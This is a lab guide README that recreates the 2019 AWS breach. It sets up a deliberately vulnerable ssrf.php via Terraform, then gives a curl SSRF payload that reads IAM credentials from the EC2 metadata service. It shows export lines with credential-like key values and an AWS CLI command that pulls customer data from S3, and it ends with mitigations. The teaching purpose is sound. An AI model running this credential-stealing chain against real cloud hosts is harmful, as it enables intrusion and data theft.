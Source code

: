 # 🌟 2019 AWS Data Breach Demo Lab Guide 🌟

## 🌐 Overview

This lab demonstrates an attack based on the SSRF (Server-Side Request Forgery) vulnerability, which can be used to steal AWS credentials from an Amazon EC2 instance and further access sensitive data in S3 buckets. The goal is to understand the potential impact of SSRF vulnerabilities in cloud environments and explore best practices for securing cloud infrastructure.

## 📖 The Story

In this lab, we simulate a real-world scenario where an attacker exploits a misconfigured web application on an EC2 instance. The vulnerable application allows the attacker to access the EC2 metadata service, retrieve IAM credentials, and subsequently gain unauthorized access to an S3 bucket. By performing this lab, we learn how simple misconfigurations can lead to serious security breaches in cloud environments.

## 🛠️ Lab Setup

### 🔧 Prerequisites

- An AWS user account with appropriate permissions.
- IAM user with permissions to create and manage resources.
- An EC2 instance running on AWS.
- A VPC to host the EC2 instance.
- An S3 bucket to store and access data.
- The EC2 instance must be accessible via the public internet.

### 📝 Lab Setup Steps

1. **📂 Clone the Repository**: Clone the repository that contains the necessary configuration files.
   
   ```sh
   git clone https://github.com/jasonYuRong/2019-AWS-Data-Breach-Demo.git
   ```

2. **📁 Navigate to the Directory**: Change into the cloned repository directory.
   
   ```sh
   cd 2019-AWS-Data-Breach-Demo
   ```

3. **🚀 Apply Terraform Configuration**: Use Terraform to set up the EC2 instance with the required configurations. This will automatically deploy Apache HTTP server and the vulnerable `ssrf.php` file.
   
   ```sh
   terraform apply
   ```

   Follow the prompts to approve the infrastructure changes. Terraform will create the EC2 instance along with the necessary configurations, including deploying Apache and the `ssrf.php` script.

## 🎯 Goal

The main goal of this lab is to gain unauthorized access to the S3 bucket by exploiting the SSRF vulnerability. Specifically, you will access the EC2 metadata service, obtain temporary AWS credentials, and use those credentials to retrieve an object from the S3 bucket.

## 💡 Solution & Walkthrough

### Step 1: 🚦 Launch an EC2 Instance and Ensure Accessibility

Make sure you have an AWS EC2 instance running with the following attributes:

- **Public IP**: A public IP address is assigned so it can be accessed from the internet.
- **IAM Role**: Configured with an IAM role (`ec2_role`) that has permissions to access S3 for the demo.

### Step 2: 🔍 Set Up the SSRF Vulnerability Environment

The Terraform script has already set up Apache HTTP server and deployed a vulnerable PHP file `ssrf.php` on your EC2 instance. This file allows an attacker to exploit SSRF to access resources that should not be accessible externally, such as the EC2 metadata service.

Ensure that the HTTP server is running and accessible via the public IP of your EC2 instance.

### Step 3: 🚨 Exploit the SSRF Vulnerability to Access EC2 Metadata

Now you can exploit the SSRF vulnerability to get the IAM role credentials from the EC2 metadata service.

Run the following `curl` command:

```sh
curl http://<EC2_public_ip>/ssrf.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
```

- `<EC2_public_ip>`: Replace with your EC2 public IP.
- `169.254.169.254`: This is the IP address of the AWS EC2 metadata service, which is only accessible from within the instance.

### Step 4: 🗝️ Extract AWS Credentials and Set Environment Variables

After running the above `curl` command, you should see the temporary credentials for the IAM role, which include:
- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`
- `AWS_SESSION_TOKEN`

Next, set these credentials as environment variables to use AWS CLI for further operations. For example:

```sh
export AWS_ACCESS_KEY_ID="ASIAZDZTCACO7BAZ7KEE"
export AWS_SECRET_ACCESS_KEY="S7z6biyOscdzDEVuLLLXa0GwHYRdN89ivkMy/4Dz"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEFYaCXV..."
```

### Step 5: 📥 Use AWS CLI to Access the S3 Bucket

Using the credentials set in the previous step, you can now use AWS CLI to access the specified S3 bucket.

For example, download a file from the S3 bucket:

```sh
aws s3 cp s3://jhu-en-650-603/customer.json - | cat
```

This command downloads the `customer.json` file from the S3 bucket and displays its contents in the terminal.

### 🎉 Lab Completion

At this point, we have successfully exploited an SSRF vulnerability in the EC2 instance to access the metadata service and used the retrieved credentials to access sensitive data in S3.

## 🔒 Reflection and Security Recommendations

1. **🚫 Restrict Metadata Access**:
   - Use `Instance Metadata Service v2 (IMDSv2)` to enhance security and prevent simple HTTP requests from accessing metadata.
   - In the instance's Terraform configuration, enforce IMDSv2 by setting:
     ```hcl
     metadata_options {
       http_tokens = "required"
       http_put_response_hop_limit = 1
     }
     ```

2. **🔑 Principle of Least Privilege**:
   - The IAM role assigned to the EC2 instance should follow the principle of least privilege, granting only the necessary S3 permissions to avoid over-privileged access.

3. **🛡️ Web Application Firewall (WAF)**:
   - Use a WAF to prevent SSRF attacks. WAFs can effectively block malicious requests to your web application.

4. **📝 Code Auditing and Input Validation**:
   - Ensure proper validation of user inputs to avoid directly using user input as part of a URL request.

## 📜 Lab Summary

This lab demonstrated the dangers of SSRF attacks in a cloud environment, showcasing the potential to leverage such vulnerabilities to further attack AWS infrastructure. The goal was to exploit SSRF to gain unauthorized access to S3 and retrieve sensitive data. Hopefully, this demo helps you better understand how to prevent similar security risks and apply the principle of least privilege and secure configurations.
